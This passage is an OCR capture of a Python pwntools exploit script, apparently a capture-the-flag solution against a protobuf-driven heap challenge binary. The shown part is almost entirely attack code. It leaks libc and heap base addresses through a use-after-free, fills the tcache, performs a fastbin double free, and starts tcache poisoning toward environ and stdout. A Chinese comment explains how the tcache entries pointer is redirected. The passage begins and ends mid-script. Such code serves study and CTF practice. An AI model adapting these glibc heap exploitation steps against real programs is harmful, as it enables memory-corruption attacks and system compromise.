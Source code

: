 ```python
    p.send(data)
 
def show(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 3
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def do_nothing(content):
    data = heybro_pb2.heybro()
    data.whattodo = 0
    data.whatcon = content
    data.whatidx = 1
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)    

for i in range(9):
    create(i,b'aaaaaaaa')

# leak libc_base
show(0)
p.recvuntil(b'aaaaaaaa')
leak = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = leak - 0x21ace0
log.success('libc_base : ' + hex(libc_base))

# leak heap_base
delete(0)
show(0)
p.recvuntil(b'Content:')
leak = u64(p.recv(5).ljust(8,b'\x00'))
heap_base = (leak << 12) - 0x2000 
log.success('heap_addr : ' + hex(heap_base))

# fill 0x40 tcache
for i in range(6):
    delete(i+1)

# double free fastbin
delete(7)
delete(8)
delete(7)

# malloc all tcache
for i in range(7):
    create(i,b'a'*8)

environ = libc_base + libc.sym['environ']
stdout = libc_base + libc.sym['_IO_2_1_stdout_']

create(7,p64((heap_base+0xf0)^((heap_base+0x004e40)>>12)))
create(8,b'aaaaaa')
create(8,b'a')

# 将0xf0大小的tcache块(entries指针地址在heap_base+0xf8)的entries改为heap_base+0x10
```